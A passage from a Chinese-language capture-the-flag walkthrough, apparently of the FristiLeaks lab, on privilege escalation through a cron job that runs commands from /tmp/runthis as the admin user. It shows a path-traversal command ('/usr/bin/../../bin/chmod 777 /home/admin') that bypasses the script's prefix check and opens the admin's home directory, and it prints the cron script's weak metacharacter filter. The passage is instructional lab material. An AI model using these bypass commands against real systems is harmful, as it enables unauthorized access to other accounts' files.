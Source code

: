在`/home/eezeepz`目录下，有个`note.txt`

```sh
sh-4.1$ cat notes.txt
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

意思是：只能用`/usr/bin`下的文件，在`/tmp`目录创建`runthis`文件，然后`admin`用户会每一分钟运行它

```bash
echo '/usr/bin/../../bin/chmod 777 /home/admin' > runthis
```

```bash
sh-4.1$ echo '/usr/bin/../../bin/chmod 777 /home/admin' > runthis
echo '/usr/bin/../../bin/chmod 777 /home/admin' > runthis
sh-4.1$ ls -l /home/admin
ls -l /home/admin
total 632
-rwxr-xr-x 1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x 1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r-- 1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r-- 1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r-- 1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x 1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x 1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x 1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r-- 1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

然后就可以查看该目录

`cronjob.py`

```python
import os

def writefile(str):
    with open('/tmp/cronresult','a') as er:
        er.write(str)
        er.close()

with open('/tmp/runthis','r') as f:
    for line in f:
        #does the command start with /home/admin or /usr/bin?
        if line.startswith('/home/admin/') or line.startswith('/usr/bin/'):
            #lets check for pipeline
            checkparams= '|&;'
            if checkparams in line:
                writefile("Sorry, not allowed to use |, & or ;")
                exit(1)
```